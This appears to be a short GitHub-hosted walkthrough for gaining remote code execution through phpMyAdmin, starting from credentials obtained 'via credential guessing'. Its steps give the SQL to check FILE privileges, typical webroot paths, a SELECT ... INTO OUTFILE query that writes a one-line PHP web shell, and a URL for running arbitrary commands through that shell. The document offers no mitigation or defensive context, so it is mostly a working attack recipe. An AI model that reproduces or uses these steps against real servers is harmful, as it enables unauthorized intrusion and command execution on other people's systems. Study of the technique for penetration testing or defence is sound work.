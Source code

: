 #### **Prerequisites**

- Access to the phpMyAdmin interface with valid credentials (via credential guessing or other methods).
- `FILE` privileges granted to the MySQL user account.
- The webroot location of the target server must be known and writable by MySQL.

#### **Steps to Achieve RCE**

1. **Confirm File Privileges** Run the following query to check if the MySQL user has `FILE` privileges:
    
    ```sql
    SHOW GRANTS FOR CURRENT_USER;
    ```
![image](https://github.com/user-attachments/assets/19dd848f-e020-4aee-b76b-d052fdce2562)

    Look for `FILE` privilege in the output.
    
2. **Determine the Webroot Location**
    
    - Use phpinfo() if accessible via the web server to identify the document root.
    - ![Screenshot 2025-02-28 223302](https://github.com/user-attachments/assets/c63a7679-dfc2-4a98-805f-5955791138c3)
    - Typical webroots:
        - LAMP: `/var/www/html`
        - WAMP/XAMPP: `C:/wamp/www` or `C:/xampp/htdocs`
3. **Create the Webshell** Use the `OUTFILE` function to write a webshell:
    
    ```sql
    SELECT '<?php system($_GET["cmd"]); ?>;' INTO OUTFILE '/path/to/webroot/shell.php';
    ```
    
    Replace `/path/to/webroot/` with the identified webroot (e.g., `C:/wamp/www/`).
    
4. **Access the Webshell** Navigate to the shell via a browser:
    
    ```
    http://<target-ip>/shell.php?cmd=whoami
    ```
    Replace `cmd` with your desired command.
    

---

